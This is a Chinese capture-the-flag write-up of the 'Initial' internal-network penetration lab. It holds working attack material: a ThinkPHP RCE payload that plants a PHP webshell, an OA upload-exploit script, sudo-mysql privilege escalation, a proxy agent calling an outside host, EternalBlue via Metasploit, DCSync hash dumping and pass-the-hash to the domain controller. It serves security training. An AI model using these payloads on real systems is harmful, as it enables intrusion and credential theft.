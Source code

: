 # 春秋云镜 & Initial

## 靶标介绍
`Initial`是一套难度为简单的靶场环境，完成该挑战可以帮助玩家初步认识内网渗透的简单流程。该靶场只有一个`flag`，各部分位于不同的机器上。

## 攻击流程

题目给出的初始`IP`对应的是一个`ThinkPHP`框架开发的管理系统，发现存在`ThinkPHP 5.0.23 RCE`漏洞，写入一句话木马后用蚁剑连接

```html
http://39.99.234.215/?s=captcha&test=-1

POST:
_method=__construct&filter[]=system&method=GET&server[REQUEST_METHOD]=echo%20PD9waHAgQGV2YWwoJF9SRVFVRVNUWzFdKTs%2FPg%3D%3D%7Cbase64%20-d%20%3E%20%2Fvar%2Fwww%2Fhtml%2Fh3.php
```

`www-data`权限，尝试`SUID`提权，发现`mysql`命令可以用于提权，在`/root/flag/flag01.txt`中拿到第一部分`flag`：`flag{60b53231-`

```bash
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -print 2>/dev/null
sudo -l
```

![](./images/1.png)

```bash
sudo mysql -e '\! ls /root/flag'
sudo mysql -e '\! cat /root/flag/flag01.txt'
```

![](./images/2.png)

查看网卡信息发现存在`172.22.1.1`网段，上传扫描工具`fscan`和代理工具`Stowaway`

```bash
# 加权限
sudo mysql -e '\! chmod 777 /var/www/html/fscan_amd64'
sudo mysql -e '\! chmod 777 /var/www/html/linux_x64_agent'

# 扫描网段
./fscan_amd64 -h 172.22.1.1/24 -np

# 服务器
./linux_x64_admin -l 22222 -s h3rmesk1t
# 靶机
./linux_x64_agent -c "114.55.6.121:22233" -s h3rmesk1t
```

![](./images/3.png)

`fscan`扫描结果，`172.22.1.2`地址为域控主机地址，`172.22.1.21`地址主机存在`MS17-010`漏洞，`172.22.1.18`地址存在`信呼OA`应用

```text
start infoscan
trying RunIcmp2
The current user permissions unable to send icmp packets
start ping
(icmp) Target 172.22.1.2      is alive
(icmp) Target 172.22.1.18     is alive
(icmp) Target 172.22.1.21     is alive
(icmp) Target 172.22.1.15     is alive
[*] Icmp alive hosts len is: 4
172.22.1.18:3306 open
172.22.1.21:445 open
172.22.1.18:445 open
172.22.1.2:445 open
172.22.1.18:139 open
172.22.1.21:139 open
172.22.1.2:139 open
172.22.1.21:135 open
172.22.1.18:135 open
172.22.1.2:135 open
172.22.1.18:80 open
172.22.1.15:80 open
172.22.1.2:88 open
172.22.1.15:22 open
[*] alive ports len is: 14
start vulscan
[*] NetInfo:
[*]172.22.1.21
   [->]XIAORANG-WIN7
   [->]172.22.1.21
[*] NetInfo:
[*]172.22.1.18
   [->]XIAORANG-OA01
   [->]172.22.1.18
[*] WebTitle: http://172.22.1.15        code:200 len:5578   title:Bootstrap Material Admin
[*] NetInfo:
[*]172.22.1.2
   [->]DC01
   [->]172.22.1.2
[*] NetBios: 172.22.1.2      [+]DC DC01.xiaorang.lab             Windows Server 2016 Datacenter 14393 
[*] NetBios: 172.22.1.21     XIAORANG-WIN7.xiaorang.lab          Windows Server 2008 R2 Enterprise 7601 Service Pack 1 
[+] 172.22.1.21	MS17-010	(Windows Server 2008 R2 Enterprise 7601 Service Pack 1)
[*] 172.22.1.2  (Windows Server 2016 Datacenter 14393)
[*] NetBios: 172.22.1.18     XIAORANG-OA01.xiaorang.lab          Windows Server 2012 R2 Datacenter 9600 
[*] WebTitle: http://172.22.1.18        code:302 len:0      title:None 跳转url: http://172.22.1.18?m=login
[*] WebTitle: http://172.22.1.18?m=login code:200 len:4012   title:信呼协同办公系统
[+] http://172.22.1.15 poc-yaml-thinkphp5023-method-rce poc1
```

先对`172.22.1.18`地址存在的`信呼OA`应用进行漏洞测试，利用弱口令`admin/admin123`进入后台，打文件上传漏洞，任务资源->文档传送->上传文件，攻击脚本如下

```python
import requests


session = requests.session()

url_pre = 'http://172.22.1.18/'
url1 = url_pre + '?a=check&m=login&d=&ajaxbool=true&rnd=533953'
url2 = url_pre + '/index.php?a=upfile&m=upload&d=public&maxsize=100&ajaxbool=true&rnd=798913'
url3 = url_pre + '/task.php?m=qcloudCos|runt&a=run&fileid=11'

data1 = {
    'rempass': '0',
    'jmpass': 'false',
    'device': '1625884034525',
    'ltype': '0',
    'adminuser': 'YWRtaW4=',
    'adminpass': 'YWRtaW4xMjM=',
    'yanzm': ''
}


r = session.post(url1, data=data1)
r = session.post(url2, files={'file': open('1.php', 'r+')})

filepath = str(r.json()['filepath'])
filepath = "/" + filepath.split('.uptemp')[0] + '.php'
id = r.json()['id']
print(id)
print(filepath)
url3 = url_pre + f'/task.php?m=qcloudCos|runt&a=run&fileid={id}'

r = session.get(url3)
r = session.get(url_pre + filepath + "?1=system('dir');")
print(r.text)
```

```php
<?= @eval($_REQUEST[1]);?>
```

![](./images/4.png)

在`C:/Users/Administrator/flag/flag02.txt`中拿到第二部分`flag`：`2ce3-4813-87d4-`

![](./images/5.png)

接着打`172.22.1.21`地址主机存在的`MS17-010`漏洞，利用`msf`进行攻击，建立正向连接，`system`权限

```bash
search ms17-010
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/bind_tcp
set RHOSTS 172.22.1.21
exploit
```

![](./images/6.png)

抓取一下用户的`hash`

```bash
load kiwi
creds_all
```

```
XIAORANG-WIN7$  XIAORANG  84efe3532fa285d59f61fcb11e6d83f2  a8cca0b211cdb2503fa1554968b7fa981b3d7502
```

接着上传`SharpHound.exe`来搜集一下域内信息

```bash
upload "/Users/alphag0/Desktop/Tools/Penetration/AD Security/SharpHound/SharpHound.exe" "C:/SharpHound.exe"

shell
chcp 65001

cd C:/
SharpHound.exe -c all

download "C:/20231108104348_BloodHound.zip" "/Users/alphag0/Desktop/"
```

![](./images/7.png)

![](./images/8.png)

可以看到`XIAORANG-WIN7`能打`DCSync`

![](./images/9.png)

利用`DCSync`来`dump`域内所有用户的`hash`

```bash
load kiwi
kiwi_cmd lsadump::dcsync /all /csv
```

```
[DC] 'xiaorang.lab' will be the domain
[DC] 'DC01.xiaorang.lab' will be the DC server
[DC] Exporting domain 'xiaorang.lab'
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
502	krbtgt	fb812eea13a18b7fcdb8e6d67ddc205b	514
1106	Marcus	e07510a4284b3c97c8e7dee970918c5c	512
1107	Charles	f6a9881cd5ae709abb4ac9ab87f24617	512
500	Administrator	10cf89a850fb1cdbe6bb432b859164c8	512
1000	DC01$	4cbd17f9b02c983c440393478ea4408c	532480
1108	XIAORANG-WIN7$	84efe3532fa285d59f61fcb11e6d83f2	4096
1104	XIAORANG-OA01$	2480adae09d2e045e2dbcc5b1ea425fb	4096
```

利用`impacket-wmiexec`进行横向移动来访问域控，在`C:\Users\Administrator\flag\flag03.txt`中拿到第三部分`flag`：`e8f88d0d43d6}`

```bash
python wmiexec.py xiaorang.lab/administrator@172.22.1.2 -hashes :10cf89a850fb1cdbe6bb432b859164c8
```

![](./images/10.png)